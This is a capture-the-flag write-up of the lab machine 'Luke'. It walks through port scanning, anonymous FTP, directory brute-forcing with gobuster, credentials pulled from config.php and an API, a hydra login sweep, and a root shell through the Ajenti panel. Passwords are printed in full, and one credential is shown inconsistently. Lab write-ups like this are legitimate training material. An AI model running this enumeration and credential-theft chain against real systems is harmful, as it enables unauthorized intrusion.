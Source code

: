 # Luke
Luke was a simple box with no privilege escalation, there was alot of enumeration, so lets get started.
## Nmap
nmap -sC -sV -oA nmap/luke 10.10.10.137
```
# Nmap 7.70 scan initiated Mon May 27 05:07:59 2019 as: nmap -sC -sV -oA Luke 10.10.10.137
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-27 15:57 IST
Nmap scan report for luke.io (10.10.10.137)
Host is up (0.16s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.15.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 6
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  SSH-2.0-OpenSSH_7.8 FreeBSD-20180909
80/tcp   open  http       Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
|_http-title: Luke
3000/tcp open  http       Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http       Ajenti http control panel
|_http-title: Ajenti

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.18 seconds
```
## FTP
The FTP had anonymous login allowed, so logging in with credentials,
```
Username: anonymous
Password:
```
we find a file *for_Chihiro.txt* inside *webapp*, which had the following contents:

```
Dear Chihiro !!

As you told me that you wanted to learn Web Development and Frontend, I can give you a little push by showing the sources of 
the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of our security policies ! 

Derry  
```

Nothing usefull here.

## Web
run gobuster on all the ports (i.e 80,3000,8000),

```
gobuster -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.137/users -f -x php -s 200,204,301,302,307,403,401,500
```

we find the following files.

```
3000=========================
http://10.10.10.137:3000/login/ (Status: 200)
http://10.10.10.137:3000/users/ (Status: 200)
http://10.10.10.137:3000/Login/ (Status: 200)
http://10.10.10.137:3000/Users/ (Status: 200)
80=========================
http://10.10.10.137/login.php (Status: 200)
http://10.10.10.137/member/ (Status: 200)
http://10.10.10.137/management/ (Status: 401)
http://10.10.10.137/css/ (Status: 200)
http://10.10.10.137/js/ (Status: 200)
http://10.10.10.137/vendor/ (Status: 200)
http://10.10.10.137/config.php (Status: 200)
8000=========================
```
Inside config.php on port 80, we creds 

```
$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword = 'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error)
```
we dont know yet where these go, so continue the enumeration.
### Port 3000 
On port 3000, we found a json webapp, and it inside it a *login* (the webserver at 3000 is not case-sensitive thus Users and users or Login and login are same). 
Making a post request to http://10.10.10.137:3000/login with creds found. I used python for it.
we get the auth token and then further exploring the users as authenticated we get a list of users.

```
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```
And if we explore http://10.10.10.137:3000/users/**username** we get their respective passwords (I used Burp-Intruder for this). We getting the following data in-total.

```
Admin:WX5b7)>/rp$U)FW 
Derry:rZ86wwLvx7jUxtch 
Yuri:bet@tester87
Dory:5y:!xa=ybfe)/QD
root:KpMasng6S5EtTy9Z
```  
### Port 80
After trying the password (i used hydra to try them all at login) at all logins found, we find that the http-auth at http://10.10.10.137/management/ has the creds

```
Derry:!xa=ybfe)/QD

```
Inside we are found the list of files, and inside config.json we find the creds to *Ajenti Login* at port 8000

```
root:KpMasng6S5EtTy9Z
```
## Root Shell
Inside we get nice interface, we find terminal gui that has root privileges leading us to get root shell.
